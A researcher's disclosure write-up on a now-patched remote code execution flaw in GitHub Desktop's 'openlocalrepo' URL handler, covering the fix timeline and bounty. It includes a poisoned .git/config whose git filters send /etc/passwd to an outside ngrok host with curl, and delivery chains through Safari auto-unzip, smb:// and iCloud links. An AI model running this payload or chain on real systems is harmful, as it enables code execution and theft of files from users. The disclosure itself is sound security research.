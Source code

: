 # RCE in [GitHub Desktop](https://github.com/desktop/desktop) < 2.9.4

[](github_desktop_openlocalrepo_safari.gif)

- [RCE in GitHub Desktop < 2.9.4](#rce-in-github-desktop-294)
- [Intro](#intro)
- [Summary](#summary)
- [Details (< v2.9.4)](#details--v294)
  - ["openlocalrepo" URL command](#openlocalrepo-url-command)
  - [Crafting a "poisoned" git repository](#crafting-a-poisoned-git-repository)
  - [Achieving code execution](#achieving-code-execution)
  - [Delivering a malicious repository to user device](#delivering-a-malicious-repository-to-user-device)
  - [Attack scenarios](#attack-scenarios)
- [Impact & fix](#impact--fix)

# Intro

It's obvious why `git` was [selected by Google](news/google-commits-to-solving-security-problems-in-open-source-projects-like-git-and-laravel/) for a security audit as a top-priority open-source project git.

`git` is a dumb version tracker used by every software engineer for collaboration.

`git`'s destiny is to make collaboration efficient for developer. Therefore, `git` needs to have different functionalities that allow to invoke local programs for remote communication, like diff and formatting.

On top of this, git is a basic primitive for deploying, scaling and managing source code and releases. Things like git-lfs make git accessible to a more broad scope of potential users.

# Summary

`openlocalrepo` [URI command](https://github.com/desktop/desktop/blob/18238077aa1e4851e710cfa66587cd4fd597bacd/app/src/cli/commands/open.ts#L35) in GitHub Desktop < 2.9.4 allows importing a crafted repository with malicious payload in `/.git/config` on the targeted machine leading to code execution.

# Details (< v2.9.4)

## "openlocalrepo" URL command

Unlike `openrepo` URI command, `openlocalrepo` doesn't ask the user for a confirmation to import a repository from local FS.
`github-mac://openlocalrepo/<path_to_local_repo>` command immediately imports the specified local repository into GitHub Desktop app.

## Crafting a "poisoned" git repository

If repository won't be downloaded via `git clone`, then attacker can supply its own repository configuration in `.git/config`

```bash
mkdir -p /tmp/evil
cd /tmp/evil
git init
cat > ./.git/config<<- EOM
[filter "any"]
    smudge = curl --data-binary "@/etc/passwd" https://metnew.ngrok.io/smudge
    clean = curl --data-binary "@/etc/passwd" https://metnew.ngrok.io/clean
EOM
touch example
git add ./example
git commit -m 'commit'
echo "*  text  filter=any" > .gitattributes
```

> Make sure to replace the test payload
> To confirm the config is poisoned run `git status` inside the repo

This repo has [git filters](https://git-scm.com/book/en/v2/Customizing-Git-Git-Attributes) that GitHub Desktop will execute as soon as the repo is imported.
When Desktop imports the repo it'll run `any` filter for `.gitattributes` file, because this file hasn't been committed yet.

## Achieving code execution

At this point, we know the following things:

- importing a local repo with URL handler doesn't require user confirmation (except for running the URL command in the browser).
- importing a local repo may lead to code execution

That means, **running a URL command can lead to malicious code execution** on user device.

## Delivering a malicious repository to user device

This is a pretty annoying task and it depends on what we already know about the target, specifically:

**Q:** What's the OS/browser/username on the targeted device?

> it's possible to discover OS/browser from User-Agent
> it's possible to discover username by previously opening a `ssh://` link in the browser (if user confirms, a SSH session will be started with the current username).
> There are other esoteric methods like stealing the username by sending an HTML file to the target (and disclosing the full path to attacker using JS later).

**Safari: `"Open 'safe' files"` isn't that safe**

**By default**, Safari has **"Open 'safe' files after downloading"** option enabled.
Thus, running `location.href = "./payload.zip"` makes Safari unzipping the archive to `~/Downloads/evil` **without any user interaction**.

**Delivering malicious files with `smb://`**

If it's macOS or Win, we can drop the folder with `location.href="smb://publicshare"`
In macOS, this requires not more than a single click from the target.

**Esoteric methods: Keybase, Google Drive, etc.**

I described some alternative payload delivery methods (Keybase, GDrive, iCloud, etc) in [this blogpost about `.terminal` files](https://medium.com/@metnew/exploiting-popular-macos-apps-with-a-single-terminal-file-f6c2efdfedaa).

**Delivering the payload w icloud links (macOS 10.15)**

URLs like `icloud-sharing://www.icloud.com/iclouddrive/0sW3_56zbqY0Exxxxxxxxxxxx#evil` on macOS 10.15 automatically download folders from the web to user's local iCloud files.

**Delivery summary**

**Hypothesis**: delivering a malicious folder to the device doesn't require more than 1 click from the target.

> Because `smb://` strategy allows doing this on both macOS and Win in no more than 1 click and **doesn't have any specific requirements** (e.g., OS username, OS settings, etc).

> **NOTE:** I don't have a Win machine. But from what I remember, Win could mount public shares without triggering a dialog at all. This hypothesis requires a confirmation though.

## Attack scenarios

**Safari attack scenario**

[](github_desktop_openlocalrepo_safari.mov)

1. User visits the attacker's website
2. The website downloads a malicious archive. The archive with the malicious repo is extracted to `/Users/user/Downloads/archive`
3. The website runs `location.href = 'github-mac://openlocalrepo//Users/user/Downloads/archive'`.
4. pwn.

**smb:// attack scenario**

[](github_desktop_openlocalrepo_smb.mov)

> PoC took a bit long, but it's possible to fine tune the smb server to skip that pause I had in the screencast

1. User visits the attacker's website
2. The website opens `location.href = "smb://guest:guest@publicshare"`. (user confirms)
3. The archive with the malicious repo is mounted to `/Volumes/share/evil`
4. The website runs `location.href = 'github-mac://openlocalrepo//Volumes/share/evil'`.
5. pwn.

# Impact & fix

Attacker can run arbitrary code on the targeted device using Github Desktop protocol handler.

As of version 2.9.4, GitHub Desktop asks for a confirmation when opening a local repository :)

See [this PR](https://github.com/desktop/desktop/pull/12935).

**Timeline**

- Aug 29 2021 - initial report
- Sep 9 2021 - the vulnerability is confirmed
- Sep 10 2021 - pull request with [fix](https://github.com/desktop/desktop/pull/12935) is available.
- Sep 10 2021 - GitHub awarded $2K bounty.

**Bounty concerns**

I had a slight feeling the bounty is too small. Because previously similar bugs in GitHub Desktop were awarded with $5K and $10K bounties. GitHub declares they pay bounties only for Critical issues and this one requires conditions to exploit, so I'm kinda ok with this. Maybe I was just too much excited about my finding :)

**Further research**

In the next write-up I'm going to share how I made over $50K+ on some git bugs and features. Stay tuned :)
